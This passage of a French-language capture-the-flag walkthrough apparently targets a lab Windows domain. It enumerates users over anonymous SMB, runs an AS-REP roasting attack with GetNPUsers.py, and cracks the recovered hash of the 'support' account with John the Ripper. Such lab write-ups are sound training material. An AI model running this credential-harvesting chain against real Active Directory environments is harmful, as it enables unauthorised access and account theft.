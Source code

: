 Pour récupérer seulement les utilisateurs on peut utiliser awk

`smbclient '//10.129.23.174/profiles$' -N -c ls | awk '{print $1}' > users.lst`

![](img/445-users-list.png)

Maintenant qu'on dispose d'une liste d'utilisateurs valides, on peut tenter une attaque ASreproast pour voir si des utilisateurs ont la pré-auth kerberos de désactivé.

`GetNPUsers.py -request -format john -outputfile ASREProastables.txt -usersfile users.lst -dc-ip blackfield.local blackfield.local/`

Ca fonctionne et on retrouve le hash du compte `blackfield.local\support`

![](img/aspreproast-hash.png)

On peut tenter de le cracker avec JtR et la wordlist rockyou

```
john --wordlist=`fzf-wordlists` ASREProastables.txt
```

![](img/aspreproast-crack.png)
